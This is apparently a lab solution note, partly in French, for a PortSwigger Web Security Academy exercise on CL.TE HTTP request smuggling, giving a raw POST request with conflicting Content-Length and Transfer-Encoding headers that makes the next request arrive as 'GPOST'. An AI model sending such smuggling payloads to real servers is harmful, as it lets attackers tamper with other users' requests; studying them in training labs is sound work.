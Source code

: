 # Lab

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

## Solution

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Avec les headers `Content-Length: 6` et `Transfer-Encoding: chunked` on peut envoyer un body vide et un chunk `G` qui sera interprêté au prochain POST comme une requête GPOST.